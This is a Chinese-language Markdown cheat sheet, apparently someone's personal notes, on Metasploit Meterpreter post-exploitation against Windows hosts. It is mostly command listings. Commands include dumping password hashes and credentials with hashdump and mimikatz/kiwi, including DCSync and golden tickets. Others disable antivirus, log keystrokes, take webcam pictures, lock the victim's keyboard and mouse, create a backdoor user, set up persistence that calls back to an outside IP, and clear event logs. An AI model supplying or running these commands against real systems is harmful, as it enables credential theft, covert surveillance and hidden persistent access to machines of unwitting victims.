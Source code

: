## 基础

### 解决乱码

运行攻击成功之后，我们将会看到命令提示符 meterpreter出现，我们输入： 
- `shell`即可切换到目标主机的`windows shell`
- 要想从目标主机`shell`退出到 `meterpreter`，我们只需输入：`exit`

>出现乱码我们可以输入`chcp 65001`来解决    ![](media/Pasted%20image%2020250701053817.png)  ![](media/Pasted%20image%2020250701053759.png)


### 基础命令
- 要想从 `meterpreter` 退出到`MSF框架`，输入：`background`
- 输入： `sessions -l` 查看我们获得的`shell`，前面有`id`![](media/Pasted%20image%2020250701053854.png)  
- 输入： `sessions -i 1` 即可切换到id为1的`shell` ![](media/Pasted%20image%2020250701053920.png)  
- 输入：`shell` 即可进入 cmd 类型的控制

```bash
sysinfo #查看目标主机系统信息
run scraper #查看目标主机详细信息
run hashdump #导出密码的哈希
load kiwi #加载mimikatz
ps #查看目标主机进程信息
pwd #查看目标当前目录(windows)
getlwd #查看目标当前目录(Linux)
search -f *.jsp -d e:\ #搜索E盘中所有以.jsp为后缀的文件
download e:\test.txt /root #将目标机的e:\test.txt文件下载到/root目录下
upload /root/test.txt d:\test #将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid #查看当前Meterpreter Shell的进程PID
migrate 1384 #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime #查看主机运行时间
getuid #查看获取的当前权限
getsystem #提权,获得的当前用户是administrator才能成功
run killav #关闭杀毒软件
screenshot #截图
webcam_list #查看目标主机的摄像头
webcam_snap #拍照
webcam_stream #开视频
execute 参数 -f 可执行文件 #执行可执行程序
run getgui -u hack -p 123 #创建hack用户，密码为123
run getgui -e #开启远程桌面
keyscan_start #开启键盘记录功能
keyscan_dump #显示捕捉到的键盘记录信息
keyscan_stop #停止键盘记录功能
uictl disable keyboard #禁止目标使用键盘
uictl enable keyboard #允许目标使用键盘
uictl disable mouse #禁止目标使用鼠标
uictl enable mouse #允许目标使用鼠标
load #使用扩展库
run #使用扩展库
run persistence -X -i 5 -p 8888 -r 192.168.10.27 #反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389 #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clearev #清除日志
```
## Post后渗透模块
该模块主要用户在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作
```bash
run post/windows/manage/migrate #自动进程迁移
run post/windows/gather/checkvm #查看目标主机是否运行在虚拟机上
run post/windows/manage/killav #关闭杀毒软件
run post/windows/manage/enable_rdp #开启远程桌面服务
run post/windows/manage/autoroute #查看路由信息
run post/windows/gather/enum_logged_on_users #列举当前登录的用户
run post/windows/gather/enum_applications #列举应用程序
run post/windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码
run post/windows/gather/smart_hashdump #dump出所有用户的hash
```

### 基础步骤
1. `sysinfo` 获取主机信息   ![](media/Pasted%20image%2020250701054506.png)  
2. `run post/windows/gather/checkvm`判断是否在虚拟机 （钓鱼执法）   ![](media/Pasted%20image%2020250701054624.png)  
3. 关闭掉目标主机的杀毒软件，通过命令：`run post/winodws/manage/killav`  ![](media/Pasted%20image%2020250701054657.png)
### 访问文件系统
![](media/Pasted%20image%2020250701055124.png)
```bash
cd：切换目标目录；
cat：读取文件内容；
rm：删除文件；
edit：使用vim编辑文件
ls：获取当前目录下的文件；
mkdir：新建目录；
rmdir：删除目录；
```
### 上传/下载文件
- download file 下载文件  ![](media/Pasted%20image%2020250701055337.png)
- upload file 命令 上传文件   ![](media/Pasted%20image%2020250701055519.png)


### 权限提升
>修改注册表、安装后门或导出密码等活动都需要提升用户权限

- `getsystem` 获得System权限
- `getuid` 命令可以获取当前用户的信息，可以看到，当我们使用 `getsystem`进行提权后，用户身材为`NT AUTHORITY\SYSTEM`，这个也就是Windows的系统权限。

### 获取用户密码
- `run windows/gather/credentials/windows_autologin` 抓取自动登录的密码  ![](media/Pasted%20image%2020250701055802.png)  
- 导出密码哈希
	- hashdump 模块可以从SAM数据库中导出本地用户账号，执行：`run windows/gather/smart_hashdump`(该命令的使用需要系统权限)  ![](media/Pasted%20image%2020250701055944.png)  
	- 亦或者上传mimikatz程序,先getsystem提权至系统权限，然后执行 execute -i -f mimikatz.exe，进入mimikatz的交互界面
```bash
privilege::debug
sekurlsa::logonpasswords
```
- `Kiwi`模块
	- `load kiwi` 加载模块  ![](media/Pasted%20image%2020250702002308.png)
	- help kiwi ![](media/Pasted%20image%2020250702002341.png)  
```bash
creds_all ##列举所有凭据
creds_kerberos ##列举所有kerberos凭据
creds_msv ##列举所有msv凭据
creds_ssp ##列举所有ssp凭据
creds_tspkg ##列举所有tspkg凭据
creds_wdigest ##列举所有wdigest凭据
dcsync ##通过DCSync检索用户帐户信息
dcsync_ntlm ##通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create ##创建黄金票据
kerberos_ticket_list ##列举kerberos票据
kerberos_ticket_purge ##清除kerberos票据
kerberos_ticket_use ##使用kerberos票据
kiwi_cmd ##执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam ##dump出lsa的SAM
lsa_dump_secrets ##dump出lsa的密文
password_change ##修改密码
wifi_list ##列出当前用户的wifi配置文件
wifi_list_shared ##列出共享wifi配置文件/编码
```
- `kiwi_cmd` 模块可以让我们使用mimikatz的全部功能，该命令后面接 mimikatz.exe 的命令 `kiwi_cmd sekurlsa::logonpasswords` (注意 kb2871997 补丁)



### 运行程序
- 先查看目标主机安装了哪些应用 ：`run post/windows/gather/enum_applications`  ![](media/Pasted%20image%2020250702002648.png)
- 使用 execute 命令在目标系统中执行应用程序 ：`execute 参数 -f 可执行文件`   运行后它将执行所指定的命令。可选参数如下：
```
-f：指定可执行文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i： 跟进程进行交互
-m：从内存中执行
-t： 使用当前伪造的线程令牌运行进程
-s： 在给定会话中执行进程

```
- `execute -i -f cmd` ![](media/Pasted%20image%2020250702002858.png)  


